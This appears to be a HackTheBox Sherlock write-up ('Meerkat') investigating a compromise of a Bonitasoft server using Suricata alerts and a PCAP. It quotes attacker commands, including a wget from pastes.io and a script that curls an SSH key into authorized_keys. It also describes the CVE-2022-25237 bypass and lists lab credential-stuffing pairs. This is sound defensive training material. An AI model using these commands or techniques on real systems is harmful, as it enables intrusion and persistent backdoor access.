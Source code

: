 ```yaml
---
tags:
  - htb
  - sherlock
  - soc
  - pcap
  - siem
  - alerts
  - json
  - wireshark
  - jq
  - forensic
  - exploit
  - linux
aliases:
  - Meerkat
date: 2024-06-12
---
```


### Scenario
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Artifacts
| Artifact            | MD5 Hash                         | Password    |
| ------------------- | -------------------------------- | ----------- |
| meerkat.zip         | 9b8369a0fcd7f95889c28da597951ad3 | hacktheblue |
| meerkat-alerts.json | f9642326d526c4f5159470b1c5d89b4a | n/a         |
| meerkat.pcap        | 7ac62b1e835e0850104f1fc2ecf1f002 | n/a         |

### Tools Used
+ `jq` JSON parser - Analyzing the JSON file.
+ WireShark - Analyzing the PCAP file.

### Forensic Analysis

**Using `jq` I quickly searched for alerts with severity level 1.**
```json
$ cat meerkat-alerts.json| jq '.[] | select(.alert.severity==1)' | less
<--snip-->
{
  "ts": "2023-01-19T15:31:31.042Z",
  "event_type": "alert",
  "src_ip": "156.146.62.213",
  "src_port": 53196,
  "dest_ip": "172.31.6.44",
  "dest_port": 8080,
  "vlan": null,
  "proto": "TCP",
  "app_proto": "http",
  "alert": {
    "severity": 1,
    "signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)",
    "category": "Attempted Administrator Privilege Gain",
    "action": "allowed",
    "signature_id": 2036815,
    "gid": 1,
    "rev": 1,
    "metadata": {
      "signature_severity": [
        "Minor"
      ],
      "former_category": [
        "WEB_SPECIFIC_APPS"
      ],
      "attack_target": [
        "Server"
      ],
      "deployment": [
        "SSLDecrypt",
        "Perimeter"
      ],
      "affected_product": null,
      "created_at": [
        "2022_06_03"
      ],
      "performance_impact": [
        "Low"
      ],
      "updated_at": [
        "2022_06_03"
      ],
      "malware_family": null,
      "tag": null,
      "cve": [
        "CVE_2022_25237"
      ]
    }
  },
  "flow_id": 1652763046938834,
  "pcap_cnt": 2168,
  "tx_id": 0,
  "icmp_code": null,
  "icmp_type": null,
  "tunnel": null,
  "community_id": "1:0XAwrtog1jdopmX+yd1WRDEzMAc="
}
```

Looks like a TA was brute forcing the default credentials for Bonitasoft to exploit the CVE-2022-25237. I confirmed the credential stuffing attack by analyzing the PCAP file.

**PCAP Analysis Using WireShark**
![[Pasted image 20240612174728.png]]

Analyzing the PCAP file it was confirmed that the TA successfully gained access to an account with the credential `seb.broom@forela.co.uk:g0vernm3nt`. And then gained privileged access to the Web Application's REST API by exploiting CVE-2022-25237. After getting privileged access to the Bonita web service the TA uploaded a malicious API extension to get command execution on the web application server.
![[Pasted image 20240612175559.png]]

The TA successfully gained command execution on the server.
![[Pasted image 20240612181452.png]]
![[Pasted image 20240612181529.png]]


**CVE-2022-25237**
According to [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), *Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending ;i18ntranslation or /../i18ntranslation/ to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions.*

HTTP Object Extraction:
![[Pasted image 20240612180604.png]]

After discovering this incident I extracted all the HTTP TCP stream objects from the PCAP file and found the usernames and passwords combination list used in this security incident. 
```csv
user,password
Clerc.Killich%40forela.co.uk,vYdwoVhGIwJ
Lauren.Pirozzi%40forela.co.uk,wsp0Uy
Merna.Rammell%40forela.co.uk,u7pWoF36fn
Gianina.Tampling%40forela.co.uk,maUIffqQl
Konstance.Domaschke%40forela.co.uk,6XLZjvD
Vida.Murty%40forela.co.uk,4ulecG
Elka.Cavet%40forela.co.uk,n1aSdc
Noam.Harvett%40forela.co.uk,VDt8bh
Norbie.Bartolini%40forela.co.uk,GV2zlop
Cariotta.Whife%40forela.co.uk,x3hoU0
Mella.Amsberger%40forela.co.uk,4nIYM5WqN
Cyndy.Element%40forela.co.uk,ybWxct
Imelda.Braben%40forela.co.uk,dC7bjGLYB
Marven.Samuel%40forela.co.uk,LPU0qQnt108
Osborne.Humpatch%40forela.co.uk,OJ4WHcI4D
Talya.Sterman%40forela.co.uk,3gCERZ2JMh
Drusilla.Nice%40forela.co.uk,l35Euh0T3Am
Tobiah.Horstead%40forela.co.uk,fp0OQl
Kayley.Northway%40forela.co.uk,s9MC7mkdVU
Adora.Mersh%40forela.co.uk,85Hh8JZkJR6
Guss.Botten%40forela.co.uk,sVMRgGmv0sE
Cordelie.Rostron%40forela.co.uk,mAtdcJh
Ellerey.Bierling%40forela.co.uk,Nva0nKTz
Berny.Ferrarin%40forela.co.uk,lPCO6Z
Nefen.Heffernon%40forela.co.uk,VR0ZA8
Skipton.Pickerill%40forela.co.uk,lcsui1Nu
Nola.Crichmer%40forela.co.uk,QGa58W3L
Sharon.Claus%40forela.co.uk,3X4d06I
Bernelle.Draycott%40forela.co.uk,MmxlUAWe0oW
Samaria.Percifull%40forela.co.uk,CUgc3hzHw5g
Puff.Yapp%40forela.co.uk,M08Aae
Cynthia.Hatto%40forela.co.uk,z0NXI6
seb.broom%40forela.co.uk,g0vernm3nt
Alexi.Siman%40forela.co.uk,iUS11pX
Pete.Panons%40forela.co.uk,BKdkGTB
Rakel.Cawley%40forela.co.uk,h4gW3YLwnW9t
Merl.Lavalde%40forela.co.uk,BgfiOVXNLBc
Antoinette.Vittel%40forela.co.uk,bGtHL8cg
Stanleigh.Tuckwell%40forela.co.uk,VQCk8TGn3
Denny.Gepson%40forela.co.uk,q2JqCSXk69
Aline.Rivallant%40forela.co.uk,gFixyf1nGgf
Jordain.Eykel%40forela.co.uk,rnMXBNdNW0
Gypsy.Henric%40forela.co.uk,lLPqVgmHs5F
Adrea.Shervil%40forela.co.uk,7YoFhtUq
Jenilee.Pressman%40forela.co.uk,3eYwLOKhQEcl
Fredrick.Gerraty%40forela.co.uk,W1By0HUByDHO
Ebony.Oleszcuk%40forela.co.uk,uAWnyfKOjQM
Garrard.Colisbe%40forela.co.uk,jMi9iP
Farleigh.Schouthede%40forela.co.uk,JzI6Dvhy
Ahmed.Monteaux%40forela.co.uk,6uskrtw8U
Griffith.Lumm%40forela.co.uk,QPepd0M8wBK
Winston.Conville%40forela.co.uk,cEmh5W2Vh
Pat.Kloisner%40forela.co.uk,N8ZwVMzF6
Teresita.Benford%40forela.co.uk,uvYjtQzX
Mathian.Skidmore%40forela.co.uk,TQSNp6XrK
Gerri.Cordy%40forela.co.uk,w15pvWGTK
```

I also found an interesting file named `bx5gcr0et8`.
```json
{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

A command was issued to download the file from `pastes.io`.
![[Pasted image 20240612181638.png]]

And then another command was issued to run the `bx5gcr0et8` file which was a bash script.
![[Pasted image 20240612181813.png]]

The contents of the bash script `bx5gcr0et8`:
```bash
**#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart**
```

A persistence technique identified by MITRE with a technique ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/). Basically, the adversary used a public key and inserted in into the `/home/ubuntu/.ssh/authorized_keys` file. In this technique the TA can also set the derivative `PubkeyAuthentication` set to `yes` in the `/etc/ssh/sshd_config` file. And, also can modify the `sshd_config` file further and set the `RSAAuthentication` to the value `yes`, if the public key algorithm is RSA based.

The Public Key used by the TA:
```text
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```


### Summary
The threat actors used credential stuffing attack against the Bonita Service and escalated their privileges in the web application by exploiting CVE-2022-25237. After that to get remote code execution on the server the threat actors uploaded a malicious extension file which gave them command injection ability. Then, they used this ability to get information of the users and added a SSH backdoor to the `ubuntu` user account for persistence.